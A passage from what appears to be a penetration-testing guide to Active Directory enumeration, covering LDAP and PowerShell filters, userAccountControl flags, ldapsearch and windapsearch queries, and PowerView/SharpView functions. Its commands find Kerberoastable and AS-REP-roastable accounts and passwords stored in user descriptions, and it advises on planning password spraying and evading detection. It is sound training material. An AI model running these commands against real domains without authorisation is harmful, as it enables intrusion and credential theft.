| SASL Authentication | Simple Authentication and Security Layer framework uses external authentication services (e.g., Kerberos) to bind to the LDAP server. | More secure due to separation of authentication methods from application protocols. Challenge/response mechanism. |
Critical security note: LDAP authentication messages are sent in cleartext by default. Anyone on the internal network can sniff LDAP messages. TLS encryption (LDAPS on port 636) or channel binding should be used to safeguard credentials in transit.
2.5.2 LDAP Queries
LDAP queries allow communication with the directory service to retrieve information. Example queries:
| Query | Purpose |
|---|---|
(objectCategory=computer) | Find all workstations/computers |
(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=8192)) | Find all domain controllers |
(&(objectCategory=person)(objectClass=user)) | Find all user accounts |
(objectClass=group) | Find all groups |
Example: Find all AD groups using Get-ADObject:
Get-ADObject -LDAPFilter '(objectClass=group)' | select nameExample: Find all disabled user accounts:
Get-ADObject -LDAPFilter '(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))' -Properties * | select samaccountname,useraccountcontrolMethodology
-
Get-ADObject -LDAPFilter '(&(objectCategory=person)(objectClass=user))' | select name -
Get-ADObject -LDAPFilter '(objectCategory=computer)' | select name -
Get-ADObject -LDAPFilter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=8192))' | select name -
Get-ADUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=2)' | select name
2.6 Active Directory Search Filters (PowerShell)
The -Filter parameter used by ActiveDirectory PowerShell module cmdlets allows you to process output efficiently and retrieve exactly the information you need. Understanding filter syntax gives you a deeper understanding of how tools like PowerView function under the hood and enables you to "live off the land" using built-in cmdlets when your tools are unavailable.
2.6.1 PowerShell Filter Operators
| Filter | Meaning | Example |
|---|---|---|
-eq | Equal to | name -eq '[user]' |
-ne | Not equal to | Enabled -ne $false |
-lt | Less than | badPwdCount -lt 5 |
-le | Less than or equal to | badPwdCount -le 3 |
-gt | Greater than | adminCount -gt 0 |
-ge | Greater than or equal to | logonCount -ge 1 |
-like | Like (supports wildcards) | DNSHostName -like 'SQL*' |
-notlike | Not like | Vendor -notlike '%Microsoft%' |
-approx | Approximately equal to | name -approx 'john' |
-band | Bitwise AND | Used for UAC flag checking |
-bor | Bitwise OR | Used for UAC flag checking |
-recursivematch | Recursive match | Nested group membership |
-and | Boolean AND | Combine multiple conditions |
-or | Boolean OR | Match any condition |
-not | Boolean NOT | Exclude matching results |
Filters can be wrapped in curly braces, single quotes, parentheses, or double-quotes. The asterisk (*) can be used as a wildcard.
2.6.2 Filter Examples
Search for a specific user (multiple syntax styles):
Get-ADUser -Filter "name -eq '[user]'"
Get-ADUser -Filter {name -eq '[user]'}
Get-ADUser -Filter 'name -eq "[user]"'Find SQL servers by hostname:
Get-ADComputer -Filter "DNSHostName -like 'SQL*'"Find all administrative groups (adminCount = 1):
Get-ADGroup -Filter "adminCount -eq 1" | select NameFind administrative users with DoesNotRequirePreAuth (ASREPRoastable):
Get-ADUser -Filter {adminCount -eq '1' -and DoesNotRequirePreAuth -eq 'True'}Find administrative users with ServicePrincipalName set (Kerberoastable):
Get-ADUser -Filter "adminCount -eq '1'" -Properties * | where servicePrincipalName -ne $null | select SamAccountName,MemberOf,ServicePrincipalName | flFilter installed software (exclude Microsoft):
get-ciminstance win32_product -Filter "NOT Vendor like '%Microsoft%'" | fl2.6.3 Escaped Characters in Filters
| Character | Escaped As | Note |
|---|---|---|
" | `" | Only needed if data is enclosed in double-quotes |
' | \' | Only needed if data is enclosed in single quotes |
| NUL | \00 | Standard LDAP escape sequence |
\ | \5c | Standard LDAP escape sequence |
* | \2a | Escaped automatically in -eq and -ne only. Use -like/-notlike for wildcards. |
( | \28 | Escaped automatically |
) | \29 | Escaped automatically |
/ | \2f | Escaped automatically |
Methodology
-
Get-ADComputer -Filter "DNSHostName -like 'SQL*'" | select Name,DNSHostName -
Get-ADGroup -Filter "adminCount -eq 1" | select Name -
Get-ADUser -Filter {adminCount -eq '1' -and DoesNotRequirePreAuth -eq 'True'} | select SamAccountName -
Get-ADUser -Filter "adminCount -eq '1'" -Properties ServicePrincipalName | where ServicePrincipalName -ne $null | select SamAccountName,ServicePrincipalName -
get-ciminstance win32_product -Filter "NOT Vendor like '%Microsoft%'" | fl Name,Version,Vendor
2.7 LDAP Search Filters
The -LDAPFilter parameter lets us use native LDAP search filter syntax (defined in RFC 4515) with AD cmdlets. LDAP filters are more powerful and portable than PowerShell -Filter syntax and are the foundation of how tools like BloodHound and PowerView query AD.
2.7.1 LDAP Filter Syntax and Operators
LDAP filters use Polish Notation (prefix notation); operators are placed before the operands. Filter rules are enclosed in parentheses and grouped using logical operators:
| Operator | Function | Example |
|---|---|---|
& | AND | (&(objectClass=user)(adminCount=1)) |
| | OR | (|(objectClass=user)(objectClass=computer)) |
! | NOT | (!(objectClass=group)) |
AND operation syntax:
# Two criteria:
(& (..C1..) (..C2..))
# More than two criteria:
(& (..C1..) (..C2..) (..C3..))OR operation syntax:
# Two criteria:
(| (..C1..) (..C2..))
# Nested operations:
(|(& (..C1..) (..C2..))(& (..C3..) (..C4..)))
# Translates to: (C1 AND C2) OR (C3 AND C4)2.7.2 Search Criteria and Rules
| Criteria | Rule | Example |
|---|---|---|
| Equal to | (attribute=value) | (&(objectclass=user)(displayName=Smith)) |
| Not equal to | (!(attribute=value)) | (!(objectClass=group)) |
| Present | (attribute=*) | (department=*) |
| Not present | (!(attribute=*)) | (!(homeDirectory=*)) |
| Greater than | (attribute>=value) | (maxStorage>=100000) |
| Less than | (attribute<=value) | (maxStorage<=100000) |
| Approximate | (attribute~=value) | (sAMAccountName~=Jason) |
| Wildcards | (attribute=*value) | (givenName=*Sam) |
2.7.3 Filter Types, Item Types, and Escaped Characters
Filter types:
| Operator | Meaning |
|---|---|
= | Equal to |
~= | Approximately equal to |
>= | Greater than or equal to |
<= | Less than or equal to |
Item types:
| Type | Meaning | Example |
|---|---|---|
= | Simple | (cn=John) |
=* | Present (attribute exists) | (description=*) |
=something* | Substring | (cn=John*) |
| Extensible | Varies depending on type | OID-based matching rules |
Characters that must be escaped in LDAP filters:
| Character | Hex Representation |
|---|---|
* | \2a |
( | \28 |
) | \29 |
\ | \5c |
| NUL | \00 |
2.7.4 Matching Rule OIDs
Matching rule Object Identifiers (OIDs) enable advanced bitwise and recursive comparisons in LDAP filters. These are essential for querying userAccountControl flags and nested group membership.
| Matching Rule OID | String Identifier | Description |
|---|---|---|
1.2.840.113556.1.4.803 | LDAP_MATCHING_RULE_BIT_AND | Match found only if all bits from the attribute match the value. Equivalent to a bitwise AND. |
1.2.840.113556.1.4.804 | LDAP_MATCHING_RULE_BIT_OR | Match found if any bits from the attribute match the value. Equivalent to a bitwise OR. |
1.2.840.113556.1.4.1941 | LDAP_MATCHING_RULE_IN_CHAIN | Walks the chain of ancestry in objects all the way to the root until it finds a match. Used for recursive/nested group membership. |
Why OIDs matter: The userAccountControl attribute in AD is a bitmask where individual flags are stored as individual bits. To check if a specific flag is set, you cannot use simple equality; you must use a bitwise AND operation. For example, the ACCOUNTDISABLE flag has a value of 2. To find all disabled accounts, you check if bit 2 is set using OID 1.2.840.113556.1.4.803.
2.7.5 Practical LDAP Filter Examples
Find all disabled user accounts:
Get-ADUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=2)' | select nameFind user descriptions (passwords often stored here):
Get-ADUser -Properties * -LDAPFilter '(&(objectCategory=user)(description=*))' | select samaccountname,descriptionFind users trusted for unconstrained delegation (UAC flag 524288):
Get-ADUser -Properties * -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)' | select Name,memberof,servicePrincipalName,TrustedForDelegation | flFind computers trusted for unconstrained delegation:
Get-ADComputer -Properties * -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)' | select DistinguishedName,servicePrincipalName,TrustedForDelegation | flFind admin accounts with PASSWD_NOTREQD flag (can have blank passwords):
Get-AdUser -LDAPFilter '(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))(adminCount=1)' -Properties * | select name,memberof | flFind all groups a user belongs to recursively (using OID 1.2.840.113556.1.4.1941):
Get-ADGroup -LDAPFilter '(member:1.2.840.113556.1.4.1941:=CN=Harry Jones,OU=Network Ops,OU=IT,OU=Employees,DC=[DOMAIN],DC=LOCAL)' | select NameCommon userAccountControl flag values for LDAP queries:
| Flag | Decimal Value | Description |
|---|---|---|
| ACCOUNTDISABLE | 2 | Account is disabled |
| LOCKOUT | 16 | Account is locked out |
| PASSWD_NOTREQD | 32 | No password required |
| NORMAL_ACCOUNT | 512 | Default account type |
| DONT_EXPIRE_PASSWORD | 65536 | Password never expires |
| TRUSTED_FOR_DELEGATION | 524288 | Unconstrained delegation enabled |
| NOT_DELEGATED | 1048576 | Account cannot be delegated |
| DONT_REQ_PREAUTH | 4194304 | Kerberos pre-authentication not required (ASREPRoastable) |
| TRUSTED_TO_AUTH_FOR_DELEGATION | 16777216 | Constrained delegation with protocol transition |
Methodology
-
Get-ADUser -Properties * -LDAPFilter '(&(objectCategory=user)(description=*))' | select samaccountname,description -
Get-ADUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=32)' | select name -
Get-ADUser -Properties * -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)' | select Name,TrustedForDelegation Get-ADComputer -Properties * -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)' | select Name,TrustedForDelegation -
Get-ADUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=4194304)' | select name -
Get-ADGroup -LDAPFilter '(member:1.2.840.113556.1.4.1941:=CN=USERNAME,OU=...,DC=DOMAIN,DC=LOCAL)' | select Name
2.8 Recursive Match and Search Scope
AD environments can contain thousands of objects with complex nested relationships. Two critical parameters help navigate this complexity: RecursiveMatch for nested group membership enumeration, and SearchBase/SearchScope for scoping searches to specific parts of the directory tree.
2.8.1 Recursive Match (Nested Group Membership)
A user may not be a direct member of Domain Admins but can have derivative Domain Admin rights because a group they belong to is nested within Domain Admins. For example, if Security Operations is a member of Domain Admins, then every member of Security Operations is effectively a Domain Admin. Standard membership queries will not show this.
Standard membership query (does NOT show nested groups):
Get-ADUser -Identity [user].jones -Properties * | select memberof | ft -Wrap
# Shows: Security Operations, Help Desk, Network Team, LAPS Admins
# Does NOT show: Domain Admins, Administrators (inherited via nesting)Check if a group is nested inside another:
Get-ADGroupMember -Identity "Security Operations"
# Returns: [user].jones -- confirming Security Operations is nested in Domain AdminsRecursiveMatch parameter; find ALL groups (direct and indirect):
Get-ADGroup -Filter 'member -RecursiveMatch "CN=Harry Jones,OU=Network Ops,OU=IT,OU=Employees,DC=[DOMAIN],DC=LOCAL"' | select nameSame query using LDAP filter with matching rule OID:
Get-ADGroup -LDAPFilter '(member:1.2.840.113556.1.4.1941:=CN=Harry Jones,OU=Network Ops,OU=IT,OU=Employees,DC=[DOMAIN],DC=LOCAL)' | select NameBoth methods return the complete list including inherited memberships: Administrators, Backup Operators, Domain Admins, Denied RODC Password Replication Group, LAPS Admins, Security Operations, Help Desk, Network Team.
2.8.2 SearchBase and SearchScope Parameters
SearchBase specifies an AD path to search under (accepts an OU's distinguished name). SearchScope defines how deep into the OU hierarchy to search.
| SearchScope | Level | Description |
|---|---|---|
| Base | 0 | Queries only the object specified as SearchBase itself. Get-ADUser with Base scope on an OU returns nothing; Get-ADObject returns the OU object itself. |
| OneLevel | 1 | Searches for objects in the container defined by SearchBase but not in any sub-containers. |
| SubTree | 2 | Searches the SearchBase and all child containers recursively down the AD hierarchy. This is the default. |
Examples using the Employees OU (970 users across all sub-OUs):
Base scope; returns nothing with Get-ADUser, returns the OU with Get-ADObject:
# Returns nothing (no users AT the OU level itself)
Get-ADUser -SearchBase "OU=Employees,DC=[DOMAIN],DC=LOCAL" -SearchScope Base -Filter *
# Returns the OU object itself
Get-ADObject -SearchBase "OU=Employees,DC=[DOMAIN],DC=LOCAL" -SearchScope Base -Filter *OneLevel scope; returns only objects directly in the Employees OU (not in child OUs):
Get-ADUser -SearchBase "OU=Employees,DC=[DOMAIN],DC=LOCAL" -SearchScope OneLevel -Filter *
# Returns: Amelia Matthews (the only user directly in Employees, not in a sub-OU)SubTree scope; returns all 970 users in Employees and all child OUs:
(Get-ADUser -SearchBase "OU=Employees,DC=[DOMAIN],DC=LOCAL" -SearchScope Subtree -Filter *).count
# Returns: 970Methodology
-
Get-ADGroup -Filter 'member -RecursiveMatch "CN=USERNAME,OU=...,DC=DOMAIN,DC=LOCAL"' | select name -
Get-ADGroup -LDAPFilter '(member:1.2.840.113556.1.4.1941:=CN=USERNAME,OU=...,DC=DOMAIN,DC=LOCAL)' -Properties adminCount | where adminCount -eq 1 | select Name -
Get-ADUser -SearchBase "OU=Admin,DC=DOMAIN,DC=LOCAL" -SearchScope Subtree -Filter * | select SamAccountName -
(Get-ADUser -SearchBase "OU=Employees,DC=DOMAIN,DC=LOCAL" -Filter *).count
2.9 Enumerating Active Directory with Built-in Tools
Built-in Windows tools are particularly valuable for AD enumeration because they are likely to be whitelisted and fly under the radar, especially in mature environments. Sysadmins use these same tools, making it harder for defenders to distinguish legitimate from malicious usage. Knowledge of multiple tools provides "offense in-depth" when detections are in place for specific tools.
2.9.1 User-Account-Control (UAC) Attributes
The userAccountControl attribute in AD controls the behavior of domain accounts. These are not to be confused with Windows User Account Control (UAC) technology. The attribute is a bitmask where each flag is a power of 2. Many flags have direct security relevance.
Enumerate UAC values with built-in cmdlets:
Get-ADUser -Filter {adminCount -gt 0} -Properties admincount,useraccountcontrol | select Name,useraccountcontrolThe raw numeric values must be converted to understand which flags are set. For example, a value of 66048 = NORMAL_ACCOUNT (512) + DONT_EXPIRE_PASSWORD (65536). A value of 4260384 = PASSWD_NOTREQD (32) + NORMAL_ACCOUNT (512) + DONT_EXPIRE_PASSWORD (65536) + DONT_REQ_PREAUTH (4194304).
Using PowerView for human-readable UAC values:
Import-Module .\PowerView.ps1
Get-DomainUser * -AdminCount | select samaccountname,useraccountcontrolPowerView automatically converts the numeric values to their string equivalents (e.g., PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH).
2.9.2 DS Tools
dsquery and dsget are available by default on all modern Windows operating systems but require domain connectivity. They are useful for "living off the land" scenarios.
Find users with non-expiring passwords:
dsquery user "OU=Employees,DC=[domain-short],DC=local" -name * -scope subtree -limit 0 | dsget user -samid -pwdneverexpires | findstr /V no2.9.3 AD PowerShell Module
The PowerShell Active Directory module provides cmdlets for comprehensive AD management and enumeration. Installation requires administrative access.
Get-ADUser -Filter * -SearchBase 'OU=Admin,DC=[domain-short],dc=local'2.9.4 Windows Management Instrumentation (WMI)
WMI can access and query objects in Active Directory. PowerShell makes WMI queries straightforward.
Enumerate all domain groups via WMI:
Get-WmiObject -Class win32_group -Filter "Domain='[DOMAIN]'" | Select Caption,Name2.9.5 AD Service Interfaces (ADSI)
Active Directory Service Interfaces (ADSI) is a set of COM interfaces for querying AD. PowerShell provides easy interaction via the [adsisearcher] type accelerator.
Enumerate all domain computers via ADSI:
([adsisearcher]"(&(objectClass=Computer))").FindAll() | select PathComparison of built-in enumeration tools:
| Tool | Type | Prerequisites | OPSEC |
|---|---|---|---|
| DS Tools (dsquery/dsget) | Command-line | Domain connectivity, built-in | Very low detection risk |
| AD PowerShell Module | PowerShell cmdlets | RSAT installed, admin to install | Low detection risk, expected tool |
| WMI | PowerShell/scripting | Domain connectivity | Low detection risk |
| ADSI | COM/PowerShell | Domain connectivity | Very low detection risk |
| PowerView | PowerShell script | None (self-contained) | Higher detection risk (well-signatured) |
Methodology
-
# Check for AD module Get-Module -ListAvailable | Where-Object Name -eq 'ActiveDirectory' # Check for DS tools where.exe dsquery -
Get-ADUser -Filter {adminCount -gt 0} -Properties admincount,useraccountcontrol | select Name,useraccountcontrol -
dsquery user "DC=domain,DC=local" -name * -scope subtree -limit 0 | dsget user -samid -pwdneverexpires | findstr /V no -
([adsisearcher]"(&(objectCategory=person)(objectClass=user))").FindAll() | ForEach-Object { $_.Properties.samaccountname } -
Import-Module .\PowerView.ps1 Get-DomainUser * -AdminCount | select samaccountname,useraccountcontrol
2.10 LDAP Anonymous Bind
LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, including a full listing of users, groups, computers, user account attributes, and the domain password policy. This is a critical misconfiguration that can provide attackers with a foothold without any credentials.
What attackers can do with anonymous bind:
2.10.1 Checking for Anonymous Bind
Using Python ldap3 library:
from ldap3 import *
s = Server('[target-ip]', get_info=ALL)
c = Connection(s, '', '')
c.bind() # Returns True if anonymous bind is allowed
s.info # Displays server info: naming contexts, domain functionality level, etc.2.10.2 Using ldapsearch for Anonymous Enumeration
ldapsearch is a Linux command-line tool for querying LDAP. The -x flag specifies simple authentication (anonymous when no credentials are provided).
Retrieve all AD objects via anonymous bind:
ldapsearch -H ldap://[target-ip] -x -b "dc=[domain-short],dc=local"This returns all objects in the directory including users, computers, OUs, groups, and their attributes.
2.10.3 Using windapsearch for Anonymous Enumeration
windapsearch is a Python script that simplifies LDAP enumeration by providing built-in query templates instead of requiring manual LDAP filter construction.
Confirm anonymous bind and check domain functional level:
python3 windapsearch.py --dc-ip [target-ip] -u "" --functionalityEnumerate all domain users (for password spraying):
python3 windapsearch.py --dc-ip [target-ip] -u "" -UEnumerate all domain computers:
python3 windapsearch.py --dc-ip [target-ip] -u "" -C2.10.4 Using ldapsearch-ad.py
ldapsearch-ad.py is another Python tool similar to windapsearch with additional built-in query types.
Retrieve domain information via anonymous bind:
python3 ldapsearch-ad.py -l [target-ip] -t infoThis returns forest/domain functionality levels, root naming context, and other server information.
Tool comparison for anonymous LDAP enumeration:
| Tool | Platform | Key Flags | Notes |
|---|---|---|---|
ldapsearch | Linux | -x -H ldap://IP -b "dc=..." | Raw LDAP queries, most flexible but requires manual filter construction |
windapsearch | Linux (Python) | -u "" -U/-C/-G | Built-in user/computer/group enumeration flags |
ldapsearch-ad.py | Linux (Python) | -t info/search/trusts | Built-in query types, requires creds for most queries |
| Python ldap3 | Linux (Python) | Scripting | Programmatic access, good for custom enumeration |
Methodology
-
ldapsearch -H ldap://DC_IP -x -b "" -s base namingcontexts -
python3 windapsearch.py --dc-ip DC_IP -u "" -U 2>/dev/null | grep 'cn:' | cut -d' ' -f2- > users.txt -
python3 windapsearch.py --dc-ip DC_IP -u "" -C -
python3 windapsearch.py --dc-ip DC_IP -u "" --functionality -
ldapsearch -H ldap://DC_IP -x -b "dc=domain,dc=local" '(&(objectCategory=user)(description=*))' samaccountname description
2.11 Credentialed LDAP Enumeration
Once domain credentials are obtained, LDAP enumeration becomes significantly more powerful. Authenticated queries can extract detailed user, group, computer, trust, GPO information, the domain password policy, Kerberoastable accounts, ASREPRoastable accounts, delegation settings, and much more.
2.11.1 Credentialed windapsearch
Enumerate Domain Admins:
python3 windapsearch.py --dc-ip [target-ip] -u [domain-short]\\[user] --daFind users with unconstrained delegation:
python3 windapsearch.py --dc-ip [target-ip] -d [domain] -u [domain-short]\\[user] --unconstrained-usersKey windapsearch flags for credentialed enumeration:
| Flag | Description |
|---|---|
-U | Enumerate all users |
-C | Enumerate all computers |
-G | Enumerate all groups |
--da | Enumerate Domain Admins |
--unconstrained-users | Find users with unconstrained delegation |
--unconstrained-computers | Find computers with unconstrained delegation |
--gpos | Enumerate Group Policy Objects |
--functionality | Show domain functional level |
2.11.2 Credentialed ldapsearch-ad.py
Retrieve password policy:
python3 ldapsearch-ad.py -l [target-ip] -d [domain-short] -u [user] -p [password] -t pass-polsOutput reveals minimum password length, complexity requirements, and lockout threshold; critical for configuring password spraying attacks safely.
Find Kerberoastable accounts (accounts with SPNs):
python3 ldapsearch-ad.py -l [target-ip] -d [domain-short] -u [user] -p [password] -t kerberoast | grep servicePrincipalName:Find ASREPRoastable accounts:
python3 ldapsearch-ad.py -l [target-ip] -d [domain-short] -u [user] -p [password] -t asreproastKey ldapsearch-ad.py request types:
Request Type (-t) | Description |
|---|---|
info | Server and domain information |
whoami | Current bind identity |
search | Custom LDAP search |
search-large | Large result set search |
trusts | Domain trust relationships |
pass-pols | Password policies (default and fine-grained) |
show-admins | Admin group members |
show-user | Detailed user information |
show-user-list | List of user accounts |
kerberoast | Find Kerberoastable accounts (SPN set) |
asreproast | Find ASREPRoastable accounts (pre-auth disabled) |
all | Run all enumeration queries |
Methodology
-
python3 ldapsearch-ad.py -l DC_IP -d DOMAIN -u USER -p PASS -t pass-pols -
python3 windapsearch.py --dc-ip DC_IP -u DOMAIN\\USER --da -
python3 ldapsearch-ad.py -l DC_IP -d DOMAIN -u USER -p PASS -t kerberoast -
python3 ldapsearch-ad.py -l DC_IP -d DOMAIN -u USER -p PASS -t asreproast -
python3 windapsearch.py --dc-ip DC_IP -d DOMAIN -u DOMAIN\\USER --unconstrained-users python3 windapsearch.py --dc-ip DC_IP -d DOMAIN -u DOMAIN\\USER --unconstrained-computers -
python3 ldapsearch-ad.py -l DC_IP -d DOMAIN -u USER -p PASS -t trusts -
python3 ldapsearch-ad.py -l DC_IP -d DOMAIN -u USER -p PASS -t all
3. Active Directory PowerView
| Tool | Type | Description |
|---|---|---|
| PowerView | PowerShell | Offensive AD enumeration tool from PowerSploit; uses PS AD hooks and Win32 API. No longer officially maintained but extremely powerful. |
| SharpView | .NET (C#) | .NET port of PowerView; less security-transparent than PowerShell; preferred for modern engagements where stealth matters. |
| BloodHound | JS/Electron + Neo4j | Graphical AD relationship mapper; uses SharpHound (PS/C#) or BloodHound.py ingestors to collect data for attack path analysis. |
| CrackMapExec | Python | Enumeration, attack, and post-exploitation toolkit leveraging SMB, WMI, WinRM, and other built-in AD protocols. |
| PingCastle | .NET | AD security audit tool using risk assessment and CMMI-based maturity framework. |
| PowerUpSQL | PowerShell | SQL Server discovery, configuration auditing, privilege escalation, and post-exploitation. |
| Snaffler | .NET | Finds credentials and sensitive data on accessible file shares in AD. |
| Group3r | .NET | Audits and finds security misconfigurations in AD Group Policy Objects. |
| MailSniper | PowerShell | Searches Exchange mailboxes for credentials, performs password spraying, enumerates domain users from OWA/EWS. |
| windapsearch | Python | Enumerates AD users, groups, and computers via LDAP queries. |
| ADRecon | PowerShell | Extracts AD data and outputs to Excel with summary views for security state analysis. |
| AD Explorer | Sysinternals | AD viewer/editor that can save and compare AD database snapshots for offline analysis. |
3.1 PowerView / SharpView Overview and Usage
SharpView is a .NET port of PowerView from the now-deprecated PowerSploit offensive PowerShell toolkit. Both tools provide identical functions and arguments for AD enumeration, situational awareness, and attack execution. The key difference is that PowerView outputs PowerShell objects (enabling piping with Select-Object), while SharpView outputs strings.
Why SharpView over PowerView: PowerShell has become increasingly security-transparent with improved detection capabilities in both consumer and enterprise endpoint protection. Offensive practitioners have migrated tooling to C# / .NET inline, which is less transparent to security monitoring. SharpView aligns with this modern tradecraft.
Loading PowerView:
# Import the PowerView module
Import-Module .\PowerView.ps1
# Or dot-source it
. .\PowerView.ps1Using SharpView:
# SharpView is a standalone .NET executable
.\SharpView.exe <FunctionName> [arguments]
# Get help for any function
.\SharpView.exe Get-DomainUser -HelpThe functionality of both tools is organized into five categories: Misc Functions, Domain/LDAP Functions, GPO Functions, Computer Enumeration Functions, Threaded Meta-Functions, and Domain Trust Functions.
3.1.1 Misc Functions
The misc functions provide utility operations for SID conversion, UAC value interpretation, user impersonation, Kerberoasting, and file path ACL enumeration.
| Function | Description |
|---|---|
Export-PowerViewCSV | Thread-safe CSV append for exporting enumeration data |
Resolve-IPAddress | Resolves a hostname to an IP address |
ConvertTo-SID | Converts a given user/group name to a Security Identifier (SID) |
Convert-ADName | Converts object names between various formats (DN, SID, NT4, etc.) |
ConvertFrom-UACValue | Converts a UAC integer value to human-readable form |
Add-RemoteConnection | Pseudo-mounts a connection to a remote path using specified credentials |
Remove-RemoteConnection | Destroys a connection created by Add-RemoteConnection |
Invoke-UserImpersonation | Creates a new "runas /netonly" type logon and impersonates the token |
Invoke-RevertToSelf | Reverts any token impersonation back to the original context |
Get-DomainSPNTicket | Requests the Kerberos ticket for a specified Service Principal Name (SPN) |
Invoke-Kerberoast | Requests service tickets for Kerberoastable accounts and returns extracted ticket hashes |
Get-PathAcl | Gets the ACLs for a local/remote file path with optional group recursion |
SID Conversion: Convert a username to its SID and back:
# Username to SID
.\SharpView.exe ConvertTo-SID -Name [user]
# Output: [sid]
# SID back to username
.\SharpView.exe Convert-ADName -ObjectName [sid]
# Output: [DOMAIN]\[user]UAC Value Decoding: When enumerating useraccountcontrol values, they are returned as numerical values. Use ConvertFrom-UACValue with the -showall flag to display all common UAC values, with set values marked with +:
Get-DomainUser [user].jones | ConvertFrom-UACValue -showall| UAC Flag | Decimal Value | Security Significance |
|---|---|---|
ACCOUNTDISABLE | 2 | Account is disabled |
PASSWD_NOTREQD | 32 | No password required; weak security |
PASSWD_CANT_CHANGE | 64 | User cannot change password |
NORMAL_ACCOUNT | 512 | Standard user account |
DONT_EXPIRE_PASSWORD | 65536 | Password never expires; higher risk of stale credentials |
TRUSTED_FOR_DELEGATION | 524288 | Unconstrained delegation; high-value target |
NOT_DELEGATED | 1048576 | Account is sensitive and cannot be delegated |
DONT_REQ_PREAUTH | 4194304 | No Kerberos pre-auth; AS-REPRoastable |
TRUSTED_TO_AUTH_FOR_DELEGATION | 16777216 | Constrained delegation with protocol transition; S4U2Self/S4U2Proxy |
Domain Policy Enumeration: Replace net accounts with Get-DomainPolicy for richer output including password policy, Kerberos policy, and lockout settings:
# Built-in command (limited output)
net accounts
# PowerView equivalent (richer output)
Get-DomainPolicyThe Get-DomainPolicy output includes SystemAccess (password age, length, complexity, lockout threshold) and KerberosPolicy (max ticket age, max renew age, max clock skew). This data is critical for planning password spraying attacks; understanding the lockout threshold and observation window prevents account lockouts.
User Impersonation: PowerView can leverage token impersonation to run commands as another user by temporarily impersonating their token, then reverting to the current user. Credentials are specified using the -Credential flag.
# Impersonate another user
Invoke-UserImpersonation -Credential $cred
# Revert to original context
Invoke-RevertToSelfOPSEC note: User impersonation generates a logon event (Event ID 4624), which could trigger an alert if using a sensitive account with administrative privileges.
3.1.2 Domain/LDAP Functions
The Domain/LDAP functions are the most extensive category, providing commands for enumerating virtually every AD object type: domains, forests, users, groups, computers, OUs, sites, subnets, ACLs, DNS zones, and more.
| Function | Description |
|---|---|
Get-Domain | Returns domain object (name, child domains, DCs, FSMO roles) |
Get-DomainController | Returns domain controllers for the current or specified domain |
Get-Forest | Returns the forest object for the current or specified forest |
Get-ForestDomain | Returns all domains for the current or specified forest |
Get-ForestGlobalCatalog | Returns all Global Catalog servers for the forest |
Get-DomainDNSZone | Enumerates AD DNS zones for a given domain |
Get-DomainDNSRecord | Enumerates AD DNS records for a given zone |
Get-DomainUser | Returns all users or specific user objects in AD |
New-DomainUser | Creates a new domain user (requires appropriate permissions) |
Set-DomainUserPassword | Sets the password for a given user identity |
Get-DomainUserEvent | Enumerates account logon events (ID 4624) and explicit credential events |
Get-DomainComputer | Returns all or specific computer objects in AD |
Get-DomainObject | Returns all or specified domain objects in AD |
Set-DomainObject | Modifies a given property for a specified AD object |
Get-DomainObjectAcl | Returns ACLs associated with a specific AD object |
Add-DomainObjectAcl | Adds an ACL for a specific AD object |
Find-InterestingDomainAcl | Finds object ACLs with modification rights set to non-built-in objects |
Get-DomainOU | Searches for all OUs or specific OU objects |
Get-DomainSite | Searches for all sites or specific site objects |
Get-DomainSubnet | Searches for all subnets or specific subnet objects |
Get-DomainSID | Returns the SID for the current or specified domain |
Get-DomainGroup | Returns all groups or specific group objects |
New-DomainGroup | Creates a new domain group (requires appropriate permissions) |
Get-DomainManagedSecurityGroup | Returns security groups that have a manager set |
Get-DomainGroupMember | Returns members of a specific domain group |
Add-DomainGroupMember | Adds a user or group to an existing domain group |
Get-DomainFileServer | Returns servers likely functioning as file servers |
Get-DomainDFSShare | Returns all DFS shares for the current or specified domain |
Find-DomainObjectPropertyOutlier | Finds user/group/computer objects with outlier properties set |
Domain and OU Enumeration:
# Get domain information (name, child domains, DCs, FSMO roles)
.\SharpView.exe Get-Domain
# Enumerate all OUs to map domain structure
.\SharpView.exe Get-DomainOU | findstr /b "name"3.1.3 GPO Functions
| Function | Description |
|---|---|
Get-DomainGPO | Returns all GPOs or specific GPO objects in AD |
Get-DomainGPOLocalGroup | Returns GPOs that modify local group memberships via Restricted Groups or GP Preferences |
Get-DomainGPOUserLocalGroupMapping | Enumerates machines where a user/group is a member of a local group through GPO correlation |
Get-DomainGPOComputerLocalGroupMapping | Determines what users/groups are in specified local groups on a machine through GPO correlation |
Get-DomainPolicy | Returns default domain policy or DC policy for the domain |
# List all GPO names
.\SharpView.exe Get-DomainGPO | findstr displayname
# Check which GPOs apply to a specific computer
Get-DomainGPO -ComputerIdentity WS01 | select displayname3.1.4 Computer Enumeration Functions
| Function | Description |
|---|---|
Get-NetLocalGroup | Enumerates local groups on local or remote machine |
Get-NetLocalGroupMember | Enumerates members of a specific local group on local or remote machine |
Get-NetShare | Returns open shares on local or remote machine |
Get-NetLoggedon | Returns users logged on to local or remote machine |
Get-NetSession | Returns session information for local or remote machine |
Get-RegLoggedOn | Returns who is logged on via remote registry key enumeration |
Get-NetRDPSession | Returns remote desktop/session information |
Test-AdminAccess | Tests if current user has admin access to local or remote machine |
Get-NetComputerSiteName | Returns the AD site where a machine resides |
Get-WMIRegProxy | Enumerates proxy server and WPAD contents for current user |
Get-WMIRegLastLoggedOn | Returns last user who logged onto the machine |
Get-WMIRegCachedRDPConnection | Returns information about outgoing RDP connections |
Get-WMIRegMountedDrive | Returns saved network mounted drive information |
Get-WMIProcess | Returns process list with owners on local or remote machine |
Find-InterestingFile | Searches for files matching specified criteria on given path |
# Test if current user has local admin on a remote host
